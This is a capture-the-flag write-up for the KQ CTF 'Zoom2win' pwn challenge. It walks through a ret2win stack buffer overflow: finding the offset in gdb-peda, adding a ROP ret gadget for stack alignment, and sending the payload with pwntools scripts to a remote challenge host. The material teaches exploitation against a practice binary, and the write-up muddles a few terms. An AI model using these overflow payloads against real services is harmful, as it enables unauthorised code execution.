 ```yaml
---
title: "KQ CTF - Zoom2win [ PWN ]"
date: 2022-02-27T18:29:07-05:00
draft: false
---
```


## __Introduction__

Let's start this challenge by looking at its description, and see what the author has to tell us about it.

![image](https://user-images.githubusercontent.com/88755387/139706301-4ac66425-bb4a-4dd8-8350-f01fe7d00cd2.png)


Okay, so we already know that this is a basic ret2win. Let's not waste any more time and start developing the script.

## __First steps__

Let's see what type of architecture it has because depending on whether it is x64 or x86_64 there are several modifications to be made in the final code.

![image](https://user-images.githubusercontent.com/88755387/139694975-1f9fcd31-b10f-43ff-807a-0fb33785d6eb.png)

Once we know that it is 64-bit let's run it and see what it's all about:

![image](https://user-images.githubusercontent.com/88755387/139695501-85b03a64-1ed4-4959-afe8-97adec7284fb.png)

We can see that when entering many characters, the binary breaks, so we are going to look for its offset in order to overwrite the EIP with the address needed to read the flag.

Before we continue with the offset search let's take a look at its protections to see what we have to deal with.

![image](https://user-images.githubusercontent.com/88755387/139698443-229e41ab-6627-4b29-b3bf-3e645e7d566a.png)

In this case, we see that we only have the NX enabled. This protection marks the stack as non-executable so that even if we can overwrite the EIP to point to our shell code the shell code will never execute. 

The return-to-libc attack circumvents this protection by overwriting the return address, not with an address pointing to our injected shell code but rather to a libc function call address.

## __Offset__

We are going to find the offset using gdb-peda which is a well known debugger in the Pwn world.

```bash
gdb-peda zoom2win
gdb-peda$ pattern create 60
gdb-peda$ r # run te program

[ Enter the created pattern ]

gdb-peda$ pattern offset AA0A # First characters of RSP register
# AA0A found at offset: 40
```

Once we know the offset we will find the function where the flag is located.

## __Flag address__

To find this address we will enter the `info functions` command inside the debugger:

![image](https://user-images.githubusercontent.com/88755387/139700183-0c59bd7e-2e78-4d9f-9841-7ebbc112379f.png)

## __Code development__

Once we have everything ready we are going to develop the script that will launch the flag. For them we will rely on the PwnTools library which will help us to make the operation much easier.

You can download PwnTools by clicking on the following [link](https://github.com/Gallopsled/pwntools).

```python
#!/usr/bin/python3
from pwn import *

s = remote('143.198.184.186', 5003)
# elf = ELF('./zoom2win')
# s = process(elf.path)

payload = b'A'*40
payload += p64(0x401196) # address to flag() function

s.sendline(payload)
s.interactive()
```

![image](https://user-images.githubusercontent.com/88755387/139702489-7c6eb174-3c36-4030-ba5d-506f4268cc5f.png)

This code won't work because we are dealing with a 64-bit binary and we need a return address. We need to jump to this ret address before jumping to the flag function to align the stack, which has to be a multiple of 16.

To find this address we will launch the following command and filter by the word `ret`.

```
ROPgadget --binary ./zoom2win --ropchain | grep ret
```

![image](https://user-images.githubusercontent.com/88755387/139703027-f829df79-6903-4fde-a7ed-653d3a992f63.png)

Once we have it we are going to add it to our code so that it returns the content of the flag.txt.

## __Final code__

```python
#!/usr/bin/python3
from pwn import *

s = remote('143.198.184.186', 5003)

payload = b'A'*40
payload += p64(0x40101a) # ROPgadget --binary ./zoom2win --ropchain
payload += p64(0x401196) # address to flag() function

s.sendline(payload)
s.interactive()
```

![image](https://user-images.githubusercontent.com/88755387/139703774-42574e3b-d233-4efc-9bfe-5b083c53849e.png)

That's what we were looking for :)

We can improve this code so that it only launches the flag without entering interactive mode. It can probably be improved in a thousand different ways, but I think this is good enough for this occasion.

```python
#!/usr/bin/python3
from pwn import *

s = remote('143.198.184.186', 5003)

payload = b'A'*40
payload += p64(0x40101a) # ROPgadget --binary ./zoom2win --ropchain
payload += p64(0x401196) # address to flag() function

s.sendline(payload) 
response = s.recvall()
print(response.decode())

print(re.search("(kqctf{.*?})",response.decode()))
```

![image](https://user-images.githubusercontent.com/88755387/139704228-3c968c21-d0cc-47db-9e45-e4ba43dca2e1.png)

I hope you enjoyed it! :D